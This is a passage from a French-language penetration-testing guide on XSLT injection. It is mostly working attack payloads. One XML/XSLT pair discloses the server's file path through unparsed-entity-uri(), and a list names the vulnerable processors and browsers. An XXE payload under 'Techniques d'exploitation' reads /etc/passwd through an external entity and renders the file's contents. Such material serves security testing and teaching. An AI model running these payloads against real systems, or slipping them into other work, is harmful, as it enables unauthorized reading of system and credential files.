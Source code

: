 ***

#### 🔎 Étape 2 : Obtenir le chemin actuel

**Technique : Utiliser `unparsed-entity-uri()`**

**XML avec DTD :**

```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="path-disclosure.xsl"?>
<!DOCTYPE catalog [
  <!ELEMENT catalog ANY>
  <!NOTATION JPEG SYSTEM "urn:myNamespace">
  <!ENTITY currentpath SYSTEM "path-disclosure.xsl" NDATA JPEG>
]>
<catalog></catalog>
```

**XSLT :**

```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <body>
        <h3>Chemin du fichier XSLT</h3>
        <p><xsl:value-of select="unparsed-entity-uri('currentpath')"/></p>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

**Processeurs vulnérables :**

* ✅ Xalan-J, Saxon, PHP
* ✅ Safari, Opera, Chrome, Internet Explorer
* ❌ Xalan-C, xsltproc, Python, Perl, Ruby, Firefox

***

### 4️⃣ TECHNIQUES D'EXPLOITATION

#### 🎯 Technique 1 : External Entity (XXE via XSLT)

**Description :** Utiliser des entités externes pour lire des fichiers locaux.

**Payload :**

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample [
  <!ENTITY ext_file SYSTEM "file:///etc/passwd">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <body>
        <h2>Contenu de /etc/passwd</h2>
        <pre>&ext_file;</pre>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```
